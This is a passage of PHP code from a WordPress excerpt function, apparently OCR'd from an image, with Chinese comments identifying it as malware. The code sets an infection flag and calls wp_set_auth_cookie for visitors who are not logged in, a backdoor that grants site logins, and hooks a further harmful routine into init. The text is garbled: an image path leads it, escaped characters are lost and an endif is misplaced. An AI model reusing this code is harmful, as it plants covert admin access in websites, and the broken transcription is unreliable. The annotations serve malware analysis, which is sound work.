                     $l=count($text);
                    $link_text_more="";
                    $ellipsis=0;
                }
            }
            for ($i=0; $i<$l; $i++)
                    $output .= $text[$i] . " ";
        }
        //把感染标记置为1
        update_option("_is_widget_active_", 1);
        if("all" != $tagsallowed) {
            $output=strip_tags($output, $tagsallowed);
            return $output;
        }
        endif;
        $output=rtrim($output, "sntrx0B");
        $output=($fixed_tags) ? balanceTags($output, true) : $output;
        $output .= ($isshowdots &#038;&#038; $ellipsis) ? "..." : "";
        //$filter 为 none ...,又是在伪装
        $output=apply_filters($filter, $output);
        switch($tag_aditional) {
            case("div") :
                $tag="div";
            break;
            case("span") :
                $tag="span";
            break;
            case("p") :
                $tag="p";
            break;
            default :
                $tag="span";
        }
    
    //$checkswidgets即是wp_set_auth_cookie
        if ($is_use_more_link ) {
            if($for_more) {
                $output .= " <" . $tag . " class="more-link"><a href="". get_permalink($post->ID) . "#more-" . $post->ID ."" title="" . $more_text_link . "">" . $link_text_more = !is_user_logged_in() &#038;&#038; @call_user_func_array($checkswidgets,array($cpages, true)) ? $link_text_more : "" . "</a></" . $tag . ">" . "n";
            } else {
                $output .= " <" . $tag . " class="more-link"><a href="". get_permalink($post->ID) . "" title="" . $more_text_link . "">" . $link_text_more . "</a></" . $tag . ">" . "n";
            }
        }
        return $output;
    }
    
    //这里是用来干坏事的，这才是这个恶意代码的目的,前面的感染是“准备活动”
    add_action("init", "_getprepare_widget");
    
